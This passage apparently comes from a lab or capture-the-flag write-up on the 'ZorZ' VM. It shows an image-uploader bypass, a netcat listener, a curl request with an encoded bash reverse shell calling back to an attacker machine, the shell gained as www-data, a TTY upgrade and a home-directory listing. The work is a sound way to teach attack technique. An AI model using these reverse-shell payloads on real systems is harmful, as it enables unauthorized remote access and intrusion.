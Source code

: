 Based on the previous success, I attempted the same image-based PHP shell technique for the "ZorZ Image Uploader 3!". The terminal output confirmed that the same bypass method worked for this uploader as well.

### Gaining a Reverse Shell

I set up a `netcat` listener on my attacking machine (Kali Linux) on port 4444:

```shellscript
nc -lnvp 4444
```

Then, I triggered the reverse shell by navigating to the uploaded file's URL.

For the `uploads1` directory (where the direct PHP shell was uploaded):

```shellscript
curl http://192.168.1.17/uploads1/php-reverse-shell.php
```

For the `uploads2` or `uploads3` directories (where `shell.php.png` was uploaded):

```shellscript
curl 'http://192.168.1.17/uploads2/shell.php.png?cmd=/bin/bash%20-c%20%22bash%20-i%20%3E%26%20/dev/tcp/192.168.1.5/4444%200%3E%261%22'
```

<img width="1365" height="289" alt="image" src="https://github.com/user-attachments/assets/07204879-ea1a-4660-900a-38e73b2cd6ac" />


Upon accessing either URL, I received a reverse shell on my `netcat` listener as the `www-data` user:

```shellscript
Connection received on 192.168.1.17 34386
Linux zorz 3.13.0-45-generic #74-Ubuntu SMP Tue Jan 13 19:37:48 UTC 2015 i686 athlon i686 GNU/Linux
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$
```

I then upgraded to a proper TTY shell for better interaction:

```shellscript
python3 -c "import pty;pty.spawn('/bin/bash')"
```

## Post-Exploitation (as `www-data`)

### User Enumeration

I explored the `/home` directory to identify potential user accounts:

```shellscript
www-data@zorz:/$ cd /home
www-data@zorz:/home$ ls
user
```
